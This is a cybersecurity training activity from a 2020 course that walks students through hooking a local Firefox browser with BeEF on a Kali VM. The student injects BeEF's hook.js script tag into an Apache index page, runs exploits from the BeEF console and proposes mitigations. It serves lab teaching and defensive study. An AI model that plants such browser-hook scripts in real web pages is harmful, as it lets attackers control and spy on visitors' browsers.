 ## Activity File: BEeF

- In this activity, you will play the role of a security analyst tasked with detecting vulnerabilities on your organization's network.

- Your organization only uses Firefox browsers.

- At the end of your test, you will have to include three mitigation strategies along with your results.


### Instructions

This activity use the Kali VM as both the attacker and the victim. 

1. Acting as the attacker,  open a terminal window in Kali and run `sudo beef-xss`.
- Make sure to copy the `<script src="http://127.0.0.1:3000/hook.js"></script>>` line from the beef-xss startup. 
   
     This window contains the malicious JavaScript that you will use to hook victim's browser.

     - What is the script?
            
2. Return to your terminal window, start the Apache web server.
      

3. Open the `/var/www/html/index.html` file and paste the malicious JavaScript. 
   
     
4. Open a web browser and click the **BeEF Authentication** shortcut in the shortcut toolbar. Sign in with:
      
      - Username: `beef`
      - Password: `cybersecurity`

   
5. Acting as the victim open Firefox browser on your Kali machine and navigate to `localhost` using the URL. 
  - If you have done this correctly you should see the landing page for the Apache2 template. 
  
![landing_page](Images/landing_page.png)
      
After the page loads, return to the BeEF framework.
   
6. Acting as the attacker, click on **Commands** and perform at least three successful exploits of your choosing.
   
      - Document your findings and be prepared to share with the class.   
            
7. What mitigation strategies would you suggest to the client to defend against client-side attacks?

 
#### Bonus

Perform an attack that displays the message "You've been hacked!" when the victim revisits the malicious webpage.

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
